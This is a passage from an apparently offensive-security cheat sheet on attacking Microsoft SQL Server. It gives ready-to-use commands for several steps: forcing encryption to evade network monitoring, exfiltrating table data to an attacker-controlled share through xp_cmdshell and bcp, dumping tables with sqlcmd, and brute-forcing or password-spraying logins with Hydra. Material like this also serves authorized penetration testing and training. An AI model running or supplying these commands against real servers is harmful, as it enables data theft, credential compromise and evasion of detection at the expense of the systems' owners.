 #### Encrypting Communications

*   **Tool:** \[\[SQLCMD]]

    ```sql
    EXEC sp_configure 'force encryption', 1;
    RECONFIGURE;
    ```
* **Description:** Enforce encryption on the MSSQL server to avoid detection by network monitoring tools.

### Data Exfiltration

#### Data Exfiltration via `xp_cmdshell`

*   **Tool:** \[\[SQLCMD]]

    ```c
    EXEC xp_cmdshell 'bcp "SELECT * FROM <database>.<schema>.<table>" queryout "\\<attack_ip>\<shared_folder>\output.txt" -c -U <username> -P <password>';
    ```
* **Description:** Extracting sensitive data from the database by using SQL queries to export data to a remote server.

#### Extracting Data via SQL Queries

*   **Tool:** \[\[SQLCMD]]

    ```bash
    sqlcmd -S <target_ip>,<target_port> -U <username> -P <password> -Q "SELECT * FROM <database>.<schema>.<table>" > data.txt
    ```
* **Description:** Extracts data from SQL Server tables and saves it to a file for exfiltration.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra mmsql://<target_ip> -s 1433 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra mssql://<target_ip> -s 1433 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.
